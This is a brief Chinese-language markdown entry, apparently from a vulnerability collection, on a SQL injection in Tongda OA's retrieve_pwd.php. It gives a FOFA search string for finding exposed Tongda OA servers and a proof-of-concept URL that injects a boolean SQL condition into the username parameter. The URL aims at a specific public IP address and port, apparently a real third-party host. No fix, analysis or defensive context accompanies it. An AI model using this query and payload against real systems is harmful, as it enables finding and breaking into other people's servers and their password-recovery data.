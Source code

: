 # 通达 oa retrieve_pwd.php sql注入漏洞

    ## fofa

```
app="TDXK-通达OA"
```

## poc

```
http://60.190.185.74:88/ispirit/retrieve_pwd.php?_GET[username]=admin' and '1'='1
```
